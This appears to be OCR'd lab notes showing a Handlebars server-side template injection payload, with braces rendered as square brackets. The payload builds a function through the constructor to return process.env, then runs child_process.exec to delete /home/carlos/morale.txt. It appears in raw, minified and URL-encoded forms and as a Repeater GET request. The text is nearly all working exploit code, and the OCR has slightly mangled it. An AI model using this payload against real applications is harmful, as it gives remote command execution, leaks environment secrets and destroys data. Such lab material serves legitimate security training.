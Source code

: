 ```bash
      [[this.pop]]
      [[#with string.split as |codelist|]]
        [[this.pop]]
        [[this.push "return JSON.stringify(process.env);"]]
        [[this.pop]]
        [[#each conslist]]
          [[#with (string.sub.apply 0 codelist)]]
            [[this]]
          [[/with]]
        [[/each]]
      [[/with]]
    [[/with]]
  [[/with]]
[[/with]]

Change to:

[[#with "s" as |string|]]
  [[#with "e"]]
    [[#with split as |conslist|]]
      [[this.pop]]
      [[this.push (lookup string.sub "constructor")]]
      [[this.pop]]
      [[#with string.split as |codelist|]]
        [[this.pop]]
        [[this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"]]
        [[this.pop]]
        [[#each conslist]]
          [[#with (string.sub.apply 0 codelist)]]
            [[this]]
          [[/with]]
        [[/each]]
      [[/with]]
    [[/with]]
  [[/with]]
[[/with]]

To

[[#with "s" as |string|]][[#with "e"]][[#with split as |conslist|]][[this.pop]][[this.push (lookup string.sub "constructor")]][[this.pop]][[#with string.split as |codelist|]][[this.pop]][[this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"]][[this.pop]][[#each conslist]][[#with (string.sub.apply 0 codelist)]][[this]][[/with]][[/each]][[/with]][[/with]][[/with]][[/with]]

To (URL-encoded version)

[[%23with+"s"+as+|string|]][[%23with+"e"]][[%23with+split+as+|conslist|]][[this.pop]][[this.push+(lookup+string.sub+"constructor")]][[this.pop]][[%23with+string.split+as+|codelist|]][[this.pop]][[this.push+"return+require('child_process').exec('rm+/home/carlos/morale.txt')%3b"]][[this.pop]][[%23each+conslist]][[%23with+(string.sub.apply+0+codelist)]][[this]][[/with]][[/each]][[/with]][[/with]][[/with]][[/with]]

Go to: Repeater

GET /?message=[[%23with+"s"+as+|string|]][[%23with+"e"]][[%23with+split+as+|conslist|]][[this.pop]][[this.push+(lookup+string.sub+"constructor")]][[this.pop]][[%23with+string.split+as+|codelist|]][[this.pop]][[this.push+"return+require('child_process').exec('rm+/home/carlos/morale.txt')%3b"]][[this.pop]][[%23each+conslist]][[%23with+(string.sub.apply+0+codelist)]][[this]][[/with]][[/each]][[/with]][[/with]][[/with]][[/with]] HTTP/1.

Send

```